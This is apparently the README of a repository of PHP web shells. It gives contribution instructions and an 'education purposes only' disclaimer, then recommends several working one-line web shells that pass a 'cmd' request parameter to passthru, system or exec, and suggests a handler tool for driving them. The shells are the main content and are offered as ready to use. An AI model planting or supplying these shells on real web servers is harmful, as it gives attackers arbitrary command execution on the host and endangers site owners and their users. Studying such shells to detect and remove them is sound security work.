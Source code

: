 Contributing
============
To contribute other shells not listed here... Fork, Push the changes to your repo, then before you request for a Pull, make sure to include a simple description of your **php** web-shell and include a screen-shot of the web-shell (as hosted in your localhost).

php-webshells
=============

Common PHP shells. Do not put these on a publicly-accessible webserver.

These are provided for education purposes only.

Common php webshells. Do not host the file(s) in your server!

++++++++++++++++++++++++++

Though I recommend one-liners like 

<?php echo passthru($_GET['cmd']); ?>

(Not a full fledged webshell, but works fine)

=================================================================

You can try WebHandler for one-liners.

WebHandler.py works for POST and GET requests:

    <?php system($_GET['cmd']); ?>
    <?php passthru($_REQUEST['cmd']); ?>
    <?php echo exec($_POST['cmd']); ?>
